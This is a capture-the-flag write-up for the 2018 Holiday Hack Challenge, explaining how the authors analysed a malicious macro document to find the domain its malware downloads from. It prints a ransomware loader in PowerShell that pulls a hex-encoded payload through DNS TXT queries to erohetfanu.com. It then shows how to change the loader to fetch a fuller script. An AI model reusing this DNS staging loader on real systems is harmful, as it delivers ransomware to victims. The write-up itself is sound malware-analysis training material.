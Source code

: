 Question 10: Identify the Domain
================================

| After completing the prior question, Alabaster gives you a document he suspects downloads the malware. What is the domain name the malware in the document downloads from?

Answer: *erohetfanu.com*

Solution
--------

To solve this challenge we decided to analyse the malware and determine where it downloads from.

TODO: Insert text from Alabaster with the instructions

https://www.holidayhackchallenge.com/2018/challenges/CHOCOLATE_CHIP_COOKIE_RECIPE.zip

Environment
^^^^^^^^^^^

The environment we used to analyse the document was a virtual machine with the Kali Linux 2018.4 operating system. 

.. note::
  Kali Linux 2018.4 had an issue unarchiving the document from the .zip file using the **unzip** application. In turn, the **olevba** application also couldn't analyse the document while it was still within the zip archive. We solved this issue by extracting the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file from the zip archive using the **7z** application.



After downloading the zip file we extracted the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file.

We extracted the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file from the extracted zip file using 7z.

.. note::
  We were forced to extract the file because the default unzip program in operating system we were using could not support the encryption method. This is a known issue. 


.. tip::
 We found the following hint from Alabaster Snowball to be useful:
 
 **wannacookie.min.ps1**? I wonder if there is a non-minified version? If so, it may be easier to read and give us more information and maybe source comments?

To utilise this hint we started with the following wannacookie loader code.

TODO: How did we obtain this code?

.. code-block:: PowerShell
  :linenos:
  :emphasize-lines: 6
  
  function H2A($a) {
    $o
    $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}
        return $o
    }
    $f = "77616E6E61636F6F6B69652E6D696E2E707331"
    $h = ""
    foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
        $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
    }
    ($(H2A $h | Out-string))



We need to modify line 6 in the above code. We can perform a simple HEX to ASCII conversion to obtain ``wannacookie.min.ps1`` from ``77616E6E61636F6F6B69652E6D696E2E707331``.

Utilising the hint, we replace ``wannacookie.min.ps1`` with ``wannacookie.ps1``. Line 6 in the above code then becomes:

.. code-block:: PowerShell
  :lineno-start: 6
  :emphasize-lines: 1

  $f = "77616E6E61636F6F6B69652E707331"